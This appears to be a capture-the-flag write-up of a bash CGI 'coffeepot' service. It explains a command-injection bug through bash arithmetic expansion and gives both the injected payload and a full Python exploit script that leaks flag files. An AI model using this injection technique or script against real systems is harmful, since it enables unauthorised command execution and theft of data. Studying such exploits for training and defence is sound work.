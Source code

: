 === Service info ===

The coffeepot service implements Hyper Text Coffee Pot Control Protocol, which described in RFC 2324, published in 1 april 1998.

It allows to start and stop coffee brewing and add some ingridients to the drink, such as rum, almond, milk, whiskey or flags.

The service is a tiny CGI-script, written in bash. A patched web-server called Mongoose listens port 3255 and launches the script.

= Bugs =

As readme states, there is no known bugs in the web-server.

The main and only known bug is in this line of CGI-script:
echo "${addition}:$((count+1))" >> "pots/${pot}.new"

The $((count+1)) looks harmless, but it is not.

= Expoitation =

To exploit the bug, the attacker could send this value as initial ingridient count:
a[$(cat pots/* |grep Flag > pots/pot-1234)]

Then, the attacker asks the service to add one more ingridient and the command is executed.

The exploit:

`import sys
import random
import requests

PAYLOAD = "Rum:a[$(cat pots/* |grep Flag > pots/pot-1234)]"

host = sys.argv[1]
pot = random.randrange(10**10, 10**20)
uri_1 = "http://%s:3255/pot-%s" % (host, pot)

requests.post(uri_1, headers={"Accept-Additions": PAYLOAD})
requests.put(uri_1, headers={"Addition": "Rum"})

uri_2 = "http://%s:3255/pot-%s" % (host,1234)
resp = requests.request("PROPFIND", uri_2)
print(resp.text)`